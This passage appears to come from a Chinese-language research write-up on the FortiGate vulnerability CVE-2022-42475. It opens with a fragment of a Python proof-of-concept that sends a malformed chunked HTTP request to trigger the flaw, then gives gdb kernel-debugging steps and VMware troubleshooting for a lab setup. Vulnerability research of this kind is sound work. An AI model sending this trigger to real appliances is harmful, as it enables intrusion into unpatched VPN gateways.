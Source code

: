 ```python
Host: %s
Transfer-Encoding: chunked

%s\r\n%s\r\n\r\n""" % (hostname.encode(), b"0"*((0x202e//2)-2), b"a")

ssock = create_ssock(hostname, port)
ssock.send(pkt)
ssock.recv(4096)
```



## CVE-2022-42475

### 调试

调试部分更新一下
首先是固件打包，仍然是repack脚本即可，删除bin目录可以注释掉(低版本磁盘空间不够需要删掉)

```shell
sudo gdb -x sp1.gdb
```


```
# sp1.gdb

file ./flatkc.elf
set architecture i386:x86-64
b *0xffffffff807ac11c
python import time; time.sleep(10)
target remote 192.168.0.90:12345
c
set {char[10]} 0xFFFFFFFF808F3591 = "/bin/init"
x/s 0xFFFFFFFF808F3591
c

```

紧接着启动飞塔镜像即可(事实上这里fgt_verify返回的是0)


遇到的一些问题

 + fortigate虚拟机attach上后，c就断掉，显示errot detected on fd 12

![img_v3_02jn_5dea698f-5c57-4ab8-b5ca-fcc1cc6f48eg.jpg](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img_v3_02jn_5dea698f-5c57-4ab8-b5ca-fcc1cc6f48eg.jpg)

我在thinkbook14+上遇到这个问题，解决这个问题我进行了以下操作

+ 彻底关闭hyperv[ https://htlsmile.github.io/2024/06/10/VMware-Workstation-%E8%99%9A%E6%8B%9F%E5%8C%96%E5%BC%95%E6%93%8E%E8%AE%BE%E7%BD%AE/#%E5%B9%B2%E8%B4%A7 ]
+ 关闭了windows的内核保护和内存完整性保护
+ 更新了vmware(这个应该没影响)

同时也解决了ubuntu桥接获取不到IP的问题
